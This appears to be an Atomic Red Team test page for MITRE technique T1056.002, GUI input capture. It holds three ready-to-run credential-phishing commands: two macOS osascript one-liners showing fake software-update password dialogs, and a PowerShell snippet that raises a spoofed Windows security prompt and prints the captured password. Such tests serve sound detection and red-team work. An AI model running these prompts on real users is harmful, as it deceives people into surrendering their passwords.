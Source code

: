 ```yaml
---
tags: [T1056_002, atomic_test]
filename: "[[T1056.002 - Input Capture- GUI Input Capture]]"
---
```

# T1056.002 - Input Capture: GUI Input Capture

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


**auto_generated_guid:** 76628574-0bc1-4646-8fe2-8f4427b47d15






#### Attack Commands: Run with `bash`! 


```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


**auto_generated_guid:** 2b162bfd-0928-4d4c-9ec3-4d9f88374b52






#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
<br/>

## Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript
Prompt user for password without requiring permissions to send Apple events to System Settings.
https://embracethered.com/blog/posts/2021/spoofing-credential-dialogs/

**Supported Platforms:** macOS


**auto_generated_guid:** b7037b89-947a-427a-ba29-e7e9f09bc045






#### Attack Commands: Run with `bash`! 


```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a security update MacOS needs your passphrase." with title "MacOS Security Update" default answer "" with icon stop with hidden answer')
echo $PWD_SPOOF
```






<br/>
